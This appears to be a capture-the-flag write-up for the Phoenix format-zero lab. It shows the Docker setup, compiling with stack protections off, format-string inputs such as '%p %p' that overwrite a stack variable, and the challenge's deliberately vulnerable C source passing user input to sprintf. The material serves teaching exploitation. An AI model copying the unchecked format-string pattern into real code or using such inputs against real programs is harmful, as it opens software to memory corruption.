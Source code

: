 # Phoenix format-zero
https://exploit.education/phoenix/format-zero/
## Static Analysis
##### Result
`Well done, the 'changeme' variable has been changed!`
##### Setup
```
https://hub.docker.com/r/duckll/ctf-box/
docker pull duckll/ctf-box
docker run -idt --name ctf duckll/ctf-box
docker start ctf
docker container exec -it ctf bash
```


##### Background
I tried a different setup for this challenge. I used a Docker container ( in `non-privileged` mode). This gave some excellent out-of-the-box stuff like `gdb's enhanced debugger`, nice `vi` color coding, `gcc` for compiling code, etc.

Next compile the code.  I didn't want the `compiler` to auto-insert `overflow` defences or add `ASLR`:

`gcc -fno-stack-protector -z execstack -no-pie -o format_zero format_zero.c`

You get a big clue of the issue when you compile the code:

```
format_zero.c: In function ‘main’:
format_zero.c:26:24: warning: format not a string literal and no format arguments [-Wformat-security]
   sprintf(locals.dest, buffer);
```
##### What C API to focus on?
```
[0x00400560]> ii
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x00400510 GLOBAL FUNC       puts
2   0x00400520 GLOBAL FUNC       errx
3   0x00000000 GLOBAL FUNC       __libc_start_main
4   0x00400530 GLOBAL FUNC       fgets
5   0x00000000 WEAK   NOTYPE     __gmon_start__
6   0x00400540 GLOBAL FUNC       sprintf
7   0x00400550 GLOBAL FUNC       exit
```

`sprintf` was infamous for a `format string` vulnerability.  For example, you could print a certain `stack` with:
```
/* print the Stack */
printf ("%08x %08x %08x %08x %08x\n");
```
#### man snprintf

> int snprintf(char * restrict str, size_t size, const char * restrict format, ...);
>
> sprintf(), snprintf(), vsprintf(), and vsnprintf() write to
>      the character string str

The `...` tell you it is `variadic function`.  You can pass in any number of arguments.

##### Format String Exploitation

```
root@b8d0276ae4c8:~# ./format_zero
Welcome to https://exploit.education
%p %p %p
Well done, the 'changeme' variable has been changed!
```
Or a better way to pass it in, as run-time:
```
echo "%p %p" | ./format_zero
Well done, the 'changeme' variable has been changed!
```
Now try to find the `segmentation fault`:
```
python -c 'print "%p"*4' | ./format_zero
Well done, the 'changeme' variable has been changed!


python -c 'print "%p"*11' | ./format_zero
Segmentation fault
```
##### Source code
```

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```
